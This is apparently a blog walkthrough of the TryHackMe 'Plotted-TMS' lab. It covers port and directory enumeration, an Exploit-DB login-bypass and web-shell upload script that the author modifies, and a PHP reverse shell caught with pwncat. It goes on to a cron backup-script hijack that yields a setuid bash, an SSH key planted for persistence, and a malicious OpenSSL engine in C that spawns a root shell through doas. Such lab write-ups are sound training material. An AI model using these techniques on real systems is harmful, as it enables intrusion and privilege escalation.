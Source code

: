 ```yaml
---
layout: post
title: Walkthrough - Plotted-TMS
published: true
---
```


Tags: Security, Linux, RCE, PrivEsc, Linking
Description: Everything here is plotted!
Difficulty: Easy
URL: [https://tryhackme.com/room/plottedtms](https://tryhackme.com/room/plottedtms)

* * *

## Notes

- `sudo nmap -Pn -sS -T4 -p- 10.10.154.213 -vvv`
- `sudo nmap -sC -sV -sT -O -p22,80,445 10.10.154.213`

```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 a3:6a:9c:b1:12:60:b2:72:13:09:84:cc:38:73:44:4f (RSA)
|   256 b9:3f:84:00:f4:d1:fd:c8:e7:8d:98:03:38:74:a1:4d (ECDSA)
|_  256 d0:86:51:60:69:46:b2:e1:39:43:90:97:a6:af:96:93 (ED25519)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.41 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (94%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Adtran 424RG FTTH gateway (92%), Linux 2.6.32 (92%), Linux 2.6.39 - 3.2 (92%), Linux 3.1 - 3.2 (92%), Linux 3.2 - 4.9 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- `gobuster dir -u http://10.10.154.213 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 80 contains a few different folders

```
/admin                (Status: 301) [Size: 314] [--> http://10.10.154.213/admin/]
/shadow               (Status: 200) [Size: 25]                                   
/passwd               (Status: 200) [Size: 25]   
```

- `/passwd` and `/shadow` contain a base64 message `bm90IHRoaXMgZWFzeSA6RA==` 

```
┌──(0xskar㉿cocokali)-[~]
└─$ echo "bm90IHRoaXMgZWFzeSA6RA==" | base64 -d                  
not this easy :D  
```

- `/admin` contains an `id_rsa` file - `Trust me it is not this easy..now get back to enumeration :D`

Dead end port 80. onto port 445:

- `gobuster dir -u http://10.10.102.139:445/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php,html -t 100 --no-error`

Port 445 has a `/management` directory with an admin portal `/management/admin/login.php`.

Checking out the [source](https://www.sourcecodester.com/php/14909/online-traffic-offense-management-system-php-free-source-code.html) of this management system the default credentials `admin:admin123` 

Capturing the request in burpsuite we can see that SQLi is possible, and there are also few exploits in exploitdb we can use. 

- `python2 50221.py`
- `http://10.10.137.125:445/management/`

Running the script and trying gets us connected but doesnt ewrurn us anything and we can see some errors when we try to run commands.

```
┌──(0xskar㉿cocokali)-[~/Documents/TryHackMe/plotted-tms]
└─$ python2 50221.py

Example: http://example.com

Url: http://10.10.137.125:445/management/
Check Url ...

[+] Bypass Login

[+] Upload Shell

[+] Exploit Done!

$ id
Traceback (most recent call last):
  File "50221.py", line 107, in <module>
    request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 119, in post
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/api.py", line 61, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 516, in request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/sessions.py", line 459, in prepare_request
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 314, in prepare
  File "/usr/share/offsec-awae-wheels/requests-2.23.0-py2.py3-none-any.whl/requests/models.py", line 388, in prepare_url
requests.exceptions.MissingSchema: Invalid URL '/management/uploads/1660858140_evil.php?cmd=id': No schema supplied. Perhaps you meant http:///management/uploads/1660858140_evil.php?cmd=id?
```

modifying the exploit lets us properly run it. adding the direct url to the request

```
        while True:
            cmd = raw_input("$ ")
            headers = {'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36'}
            request = requests.post("http://10.10.137.125:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
            print request.text.replace("<pre>" ,"").replace("</pre>", "")
            time.sleep(1)
```

we can now get a reverse shell by using nc 

- start up pwncat listenr `pwncat-cs -lp 6666`
- the nc mkfifo diesnt seem to work so i wget over a php reverse shell pentestmoney.
- access it at http://10.10.137.125:445/management/uploads/php-reverse-shell.php and recieve the rev shell

* * * 

## What is the content of user.txt?

- `cat /etc/crontab`

plot_admin is running a script 

```
(remote) www-data@plotted:/$ cat /var/www/scripts/backup.sh 
#!/bin/bash

/usr/bin/rsync -a /var/www/html/management /home/plot_admin/tms_backup
/bin/chmod -R 770 /home/plot_admin/tms_backup/management
```

1. create a script that copies bash to a shell than changes the files mode bits so it can be executed `echo "cp /bin/bash /home/plot_admin/pa_shell; chmod +xs /home/plot_admin/pa_shell" > script.sh`
2. change mode bits of script so it can be executed `chmod +x script.sh`
3. make a symbolic force link between the created script.sh with the bash and the plot_admins backup.sh `ln -sf script.sh backup.sh`
4. run the shell to get escalate to plot_admin `/home/plot_admin/pa_shell -p`

![](/assets/plotted-tms01.png)

add our ssh key to the user dir so we can ssh in as the user.

1. `mkdir .ssh && chmod 0700 .ssh`
2. on attacker ssh-keygen new key
3. `echo "sshkey" > .ssh/authorized_keys` && `chmod 0600`
4. ssh in

* * * 

## What is the content of root.txt?

```
╔══════════╣ Checking doas.conf
permit nopass plot_admin as root cmd openssl 
```

since we can run openssl as root create lets creat an exploit to take advantage

```
#include <openssl/engine.h>

static int bind(ENGINE *e, const char *id)
{
  setuid(0); setgid(0);
  system("/bin/bash");
}

IMPLEMENT_DYNAMIC_BIND_FN(bind)
IMPLEMENT_DYNAMIC_CHECK_FN()
```

![](/assets/plotted-tms02.png)

* * * 

